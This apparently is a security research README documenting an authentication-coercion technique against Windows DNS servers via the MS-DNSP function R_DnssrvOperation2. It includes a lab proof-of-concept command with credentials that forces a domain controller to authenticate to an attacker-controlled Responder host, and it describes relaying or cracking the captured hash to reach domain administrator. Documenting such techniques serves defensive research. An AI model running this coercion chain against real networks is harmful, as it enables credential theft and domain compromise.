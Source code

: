 # MS-DNSP - Remote call to R_DnssrvOperation2 (opnum 5)

## Summary

+ **Protocol**: [[MS-DNSP]: Domain Name Service (DNS) Server Management Protocol](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dnsp/f97756c9-3783-428b-9451-b376f877319a)

+ **Protocol UUID**: 50abc2a4-574d-40b3-9d66-ee4fd5fba076

+ **Protocol version**: 0.0

+ **SMB Named pipe**: `\PIPE\DNSSERVER`

+ **Function name**: [`R_DnssrvOperation2`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dnsp/8c0522b1-97fb-4fa7-b4e2-2c55c0afb0e7)

+ **Function operation number**: `5`

+ **Authenticated**: Yes


## Description

In order to call a remote procedure to trigger an authentication from the remote machine to an arbitrary target, we first need to authenticate to the remote machine, usually on SMB. Then we need to connect to the remote SMB pipe `\PIPE\DNSSERVER` and bind to the desired [`MS-DNSP`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dnsp/f97756c9-3783-428b-9451-b376f877319a) protocol (with uuid `50abc2a4-574d-40b3-9d66-ee4fd5fba076` and version `0.0`) in order to perform remote procedure calls to functions in the [`MS-DNSP`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dnsp/f97756c9-3783-428b-9451-b376f877319a) protocol.

The IP 192.168.2.51 being my attacking machine where I listen with Responder, and 192.168.2.1 being the IP of my Windows Server. When starting this script, it will authenticate and connect to the remote pipe named `\PIPE\DNSSERVER` This pipe is connected to the protocol [[MS-DNSP]: Domain Name Service (DNS) Server Management Protocol](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dnsp/f97756c9-3783-428b-9451-b376f877319a) and allows to call RPC functions of this protocol. We will then call the remote [`R_DnssrvOperation2`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dnsp/8c0522b1-97fb-4fa7-b4e2-2c55c0afb0e7) function on the remote Windows Server (192.168.2.1) with the following parameters:

```cpp
R_DnssrvOperation2('192.168.2.51\x00')
```

We can try this with this proof of concept code ([coerce_poc.py](./coerce_poc.py)):

```bash
./coerce_poc.py -d "LAB.local" -u "user1" -p "Podalirius123!" 192.168.2.51 192.168.2.1
```

![](./imgs/poc.png)

This will force the Windows Server (192.168.2.1) to authenticate to the SMB share `\\192.168.2.51\share` and therefore authenticate using its machine account (`DC01$`).  After this RPC call, we get an authentication from the domain controller with its machine account directly on Responder:

![](./imgs/hash.png)

After this step, we relay the authentication to other services in order to elevate our privileges, or try to downgrade it to NTLMv1 and crack it in order to get the NT hash of the domain controller's machine account. This kind of vulnerabilities allows to quickly get from user to domain administrator in unprotected domains!


## Function technical detail

```cpp
LONG R_DnssrvOperation2(
   [in]                               handle_t                    hBindingHandle,
   [in]                               DWORD                       dwClientVersion,
   [in]                               DWORD                       dwSettingFlags,
   [in, unique, string]               LPCWSTR                     pwszServerName,
   [in, unique, string]               LPCSTR                      pszZone,
   [in]                               DWORD                       dwContext,
   [in, unique, string]               LPCSTR                      pszOperation,
   [in]                               DWORD                       dwTypeId,
   [in, switch_is(dwTypeId)]          DNSSRV_RPC_UNION            pData
 );
```

## References

+ Documentation of protocol [MS-DNSP]: Domain Name Service (DNS) Server Management Protocol: https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dnsp/f97756c9-3783-428b-9451-b376f877319a

+ Documentation of function `R_DnssrvOperation2`: https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dnsp/8c0522b1-97fb-4fa7-b4e2-2c55c0afb0e7